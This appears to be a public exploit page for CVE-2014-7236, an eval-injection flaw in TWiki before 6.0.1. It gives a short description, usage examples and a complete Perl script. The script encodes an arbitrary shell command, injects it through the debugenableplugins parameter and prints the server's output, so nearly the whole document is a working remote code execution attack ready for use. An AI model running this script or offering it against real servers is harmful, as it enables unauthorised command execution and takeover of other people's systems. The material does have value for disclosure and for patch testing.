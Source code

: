 INFO
----

Eval injection vulnerability in lib/TWiki/Plugins.pm in TWiki before 6.0.1 allows remote attackers to execute arbitrary Perl code via the debugenableplugins parameter to do/view/Main/WebHome.

Usage
-----

    perl exploit.pl host [cmd]

    ex. perl exploit.pl http://127.0.0.1/Main/WebHome "uname -a"

EXP
---

    #!/usr/bin/perl
    =cut
    TWiki code execution CVE-2014-7236
    m0nad <m0nad/at/email.com>
    ref: http://seclists.org/fulldisclosure/2014/Oct/44
    =cut
    use LWP::Simple;
    use strict;
    use diagnostics;
    use warnings;
    sub banner
    {
        print "[*] TWiki code execution CVE-2014-7236\n";
        print "[*] m0nad <m0nad/at/email.com>\n";
    }
    sub usage
    {
        print "[?] usage: perl $0 <host> [cmd]\n";
        print "[?] ex. perl $0 http://127.0.0.1/Main/WebHome \"uname -a\"\n";
        exit;
    }
    sub exploit
    {
        my ($host, $cmd) = @_;
        $cmd = "echo start_xpl &&" . $cmd . "&& echo end_xpl";
        my $byte =  join('.', map { 'chr('.$_.')' } unpack('C*', $cmd));
        my $payload = "?debugenableplugins=BackupRestorePlugin%3bprint%28%22Content-Type:text/html\\r\\n\\r\\n%22%29%3bprint(system($byte))%3b%3bexit";

        my $res = get $host . $payload;
        print "[-] Exploit Failed\n" and exit unless ($res =~ m/start_xpl\n(.*?)end_xpl/ms);
        print "[+] $1";
    }
    banner();
    my $host = shift || usage();
    my $cmd = shift || "echo Vulnerable!";
    exploit($host, $cmd);
